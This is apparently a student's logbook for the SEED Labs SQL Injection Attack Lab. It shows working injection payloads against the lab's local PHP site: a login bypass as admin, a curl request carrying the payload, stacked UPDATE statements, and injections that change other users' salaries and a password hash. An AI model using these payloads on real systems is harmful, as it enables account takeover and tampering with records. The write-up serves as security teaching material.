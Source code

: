 # Trabalho realizado na semana #8

<br>

# SEED Labs - SQL Injection Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the entry `10.9.0.5        www.seed-server.com` to the `/etc/hosts` file of your VM.

2. Launch the web server, using `dcup`.
   - This command must be executed in the `Labsetup` directory.

<br>

## Task 1 : Get Familiar with SQL Statements

The goal of this task is to understand the structure of the database that is being used by the web server in the next tasks.

1. Get a shell on the MySQL container.

   1. Use `dockps | grep mysql` to get the id of the container (first column).
   2. Run `docksh <id>` with the id obtained in the previous step (only the first few characters may be used).

2. Get a shell inside the database, by executing `mysql -u root -pdees`.
   
<figure>
   <img src="images/logbook8/task1/1.png" alt="Getting a shell on the MySQL container" width="50%" />
   <figcaption><strong>Fig 1. </strong>Getting a shell on the MySQL container</figcaption>
</figure>

3. In the database shell:
   
   1. Run `use sqllab_users;` to change the current database to the database named `sqllab_users`.
   2. Run `show tables;` to see a list of the tables in the current database.
   3. Run `select * from credential where name = 'Alice';` to print all of Alice's profile information.

<figure>
   <img src="images/logbook8/task1/2.png" alt="Print all of Alice's profile information" width="50%" />
   <figcaption><strong>Fig 2. </strong>Print all of Alice's profile information</figcaption>
</figure>

<br>

## Task 2 : SQL Injection Attack on SELECT Statement

The goal of this task is to exploit a SQL Injection vulnerability and use that to log in to an arbitrary user account.

First, we'll inspect the code on the server. By going to `Labsetup/image-www/Code/unsafe_home.php`, we can see the code that is used for the home page, which is vulnerable to SQL Injection.

We found the vulnerable SELECT statement and it's presented below:

<figure>
   <img src="images/logbook8/task2/1.png" alt="The vulnerable SELECT statement" width="50%" />
   <figcaption><strong>Fig 3. </strong>The vulnerable SELECT statement</figcaption>
</figure>

After finding the vulnerable statement, we did the following steps:
   
1. Looking at the PHP code shown previously, we can see that both the username and the password are injectable. As such, we will use the username since it's the first one to appear in the SQL query, which makes the attack easier to perform.

3. Determine the injection payload:

   - We want to log in with the account of the user named `admin`. We can do that by executing the query `SELECT <fields> FROM credential WHERE name = 'admin';`. In the next steps, we will show how to transform the previously shown query into this one.
  
   1. We do not need the `password` field. To remove it, we can simply comment it out (put `; -- ` before it; the space is needed). This will be placed in the field that comes before `password`, which is `name`. As such, no payload is needed for the `password` field.
   
   2. On the `username` field, we want to select the `admin` account. Furthermore, we also want to introduce the changes described in 1., which means that we must close the string as well. Since the string is opened using `'`, we will need to close it using the same character (`'`). As such, the payload for the `name` field will be `admin'; -- `.
   
   3. The resulting SELECT statement will be as follows:
        ```sql
        SELECT <fields> FROM credential WHERE name = 'admin'; -- ' and Password = '';
        ```

### 1. SQL Injection Attack from webpage

1. Connect to the website on `www.seed-server.com`, where we will be presented with a login page.

2. Fill in the login form with the following inputs:

    - Username: `admin'; -- `
    - Password: *anything you want*

<figure>
   <img src="images/logbook8/task2/web/1.png" alt="The payload for the SQL Injection attack" width="50%" />
   <figcaption><strong>Fig 4. </strong>The payload for the SQL Injection attack</figcaption>
</figure>
   
3. Submit the form.
   
<figure>
   <img src="images/logbook8/task2/web/2.png" alt="Logged in as admin, with SQL Injection" width="50%" />
   <figcaption><strong>Fig 5. </strong>Logged in as admin, with SQL Injection</figcaption>
</figure>

### 2. SQL Injection Attack from command line

`curl` is a command-line tool that allows the user to make HTTP requests to any URL. We can, therefore, send our SQL injection payload by using `curl`.

1. Open a terminal.
2. Run `curl "www.seed-server.com/unsafe_home.php?username=admin%27;%20--%20"`.
   
   - Some special characters, such as `'` and spaces need to be encoded when used in a URL. As such, we must use `%20` instead of spaces and `%27` instead of single quotes, which are the corresponding URL-encoded version of those characters.
   
<figure>
   <img src="images/logbook8/task2/curl/1.png" alt="First part of the output of curl" width="50%" />
   <img src="images/logbook8/task2/curl/2.png" alt="Second part of the output of curl" width="50%" />
   <figcaption><strong>Figs 6 and 7. </strong>HTML code of admin page, with SQL Injection and curl</figcaption>
</figure>

<br>

### 3. Append a new SQL statement

To execute multiple statements, we can simply add the new statement after the `;` and before the ` -- ` in the username.

As such, if we want to change Ted's salary to 1234, we will need to execute the statement `UPDATE credential SET salary = 1234 WHERE name = 'Ted';`.

This means that the payload will be as follows:

- Username: `admin'; UPDATE credential SET salary = 1234 WHERE name = 'Ted'; -- `
- Password: *anything you want*

If we submit this payload on the webpage, however, we will get an error.

<figure>
   <img src="images/logbook8/task2/multistatement/1.png" alt="Error after submitting the previous payload" width="50%" />
   <figcaption><strong>Fig 8. </strong>Error after submitting the previous payload</figcaption>
</figure>

This error happens because the server is configured to only execute a single statement per query. To change this, we will need to edit the `unsafe_home.php` file, as shown below.

<figure>
   <img src="images/logbook8/task2/multistatement/2.png" alt="Code after changes have been applied" width="50%" />
   <figcaption><strong>Fig 9. </strong>Code after changes have been applied (lines 75 - 78)</figcaption>
</figure>

With these changes, the server stops using
```php
$conn->query($sql);
```
and instead uses
```php
$conn->multi_query($sql);
```

`multi_query` allows the execution of multiple semicolon-separated statements in the same query, whereas `query` doesn't.

With these changes applied, we need to rebuild the server using `dcup --build`.

After the server is back online, if we submit the payload again, the same user details are shown. This happens because the SELECT statement comes before the UPDATE statement, which means that the changes won't be reflected on the SELECT statement.

To fix this, we can simply reload the page, which will in turn execute the query again and return the updated user details, as shown below.

<figure>
   <img src="images/logbook8/task2/multistatement/3.png" alt="User details after resubmitting the SQL Injection payload" width="50%" />
   <figcaption><strong>Fig 10. </strong>User details after resubmitting the SQL Injection payload</figcaption>
</figure>

As we can see, Ted's salary has been changed to 1234.

<br>

## Task 3 : SQL Injection Attack on UPDATE Statement

The goal of this task is to explore a SQL Injection vulnerability in an UPDATE statement, which will let us modify the data present in the database.

To avoid having previous tasks interfere with this one, we reset the web server by executing the following commands in the `Labsetup` directory:

1. Run `dcdown` to shut down the containers.

2. Run `git restore .` to remove any modifications we have done to the Lab code.

   - This is important because we modified the server's code in the previous task.

3. Run `sudo rm -rf mysql_data`.

   - This will delete all data from the database container. This is important since we have modified data in the previous task and, by executing this command, we will be resetting the database to its original state.
   
4. Run `dcup --build` to start the containers again.

   - Because of the `--build` flag, this command will also check if any containers need to be rebuilt, in particular, the `www` container.

<figure>
   <img src="images/logbook8/task3/1.png" alt="Resetting the task containers" width="50%" />
   <figcaption><strong>Fig 11. </strong>Resetting the task containers</figcaption>
</figure>


After the containers are reset, we can take a look at the task.
In the lab, we are given a piece of vulnerable code, along with a SQL statement:

```php
$hashed_pwd = sha1($input_pwd);

$sql = "UPDATE credential SET
   nickname='$input_nickname',
   email='$input_email',
   address='$input_address',
   Password='$hashed_pwd',
   PhoneNumber='$input_phonenumber'
   WHERE ID=$id;";
   
$conn->query($sql);
```

As we have seen in previous tasks, this code is vulnerable to SQL Injection because it concatenates strings that have not been sanitized with a SQL query that is passed as-is to the database.

### 1. Modify your own salary

1. Log into Alice's account

   - We want to log in as Alice and change her salary through the edit profile form. To log in, we use the username `Alice` and password `seedalice`. Once inside the account, we navigate to the `Edit Profile` page by clicking on the button on the navbar at the top of the page.

2. Determine the payload injection:

   - The column we want to change is `salary`, therefore we will need something like `salary = 123456` in our payload. 
   
   - We will use the `PhoneNumber` field to inject our payload. Any field could be used, as long as it is included as-is in the resulting SQL query. 
   
   - One possible query would be as follows:
   
      ```sql
      UPDATE credential SET
         nickname='',
         ...
         PhoneNumber='', salary='123456'
         WHERE ID=10000;
      ```

   - In this case, it isn't a problem that `salary` is a string as MySQL will automatically convert it to the appropriate type.
      
   - Therefore one possible payload is `', salary='123456`.
   
3. Submit the "Edit Profile" form with the payload on the phone number field.

As we can see, Alice's salary has been changed to 123456.

### 2. Modify other people’s salary

1. Log into any account. We will log in to Alice's account.

2. Determine the injection payload:

      - This time we want to change someone else's salary, therefore, we will need to change the `WHERE ID=...` part in the resulting query, as this is currently being filled with our ID and, as such, will update our own information. This will need to be overwritten with a condition that only applies to Boby.
      
      - The new condition could be, for instance, `WHERE Name='Bobby'`. However, because we don't want to trigger a syntax error (caused by the original `WHERE ID=...` clause still being present), we will need to comment out everything that comes after that, using `; -- `.

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...
            PhoneNumber='', salary='1' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```

      - In conclusion, our final payload will be `', salary='1' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

4. Log out of the website.

5. Log in with Boby's credentials.

   - Username: `Boby`
   - Password: `seedboby`

As we can see, Bobby's salary has been changed to 1.

### 3. Modify other people’s password

1. Log into an account. We will log in to Alice's account.

2. Determine the payload:

      - This task is generally the same as the previous one, the only difference is that the database stores a hash instead of a password, therefore we must hash our new password before inserting it.

      - There are two ways of accomplishing that goal:

         1. Since the new password comes before the phone number in the query, we can simply place the new password in plain text in the password field of the form (it will be hashed by the server) and the rest of the injected SQL in the phone number field of the form. This is useful if we don't what hashing algorithm is being used by the server, but we need to know (or, at least, guess) how the query is organized.

         2. We can also use the same payload as in task 3.2 and replace `salary='1'` with `Password='.<sha1 of password>'`. The downside here is that we need to know the hashing algorithm. Since we know that, we will use this approach.

      - We want to change Boby's password to `you_wont_access_your_account_again_bobby`. Let's hash the password with SHA1: `2409cc93fb815f9da0947627730f3d006aefb4f2`. 

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...,
            Password='',
            PhoneNumber='', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```
      
      - Therefore, our payload will be `', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

4. Log out of the website.

5. Log in with Boby's new credentials.

   - Username: `Boby`
   - Password: `you_wont_access_your_account_again_bobby`

As we can see, Bobby's password has been changed.
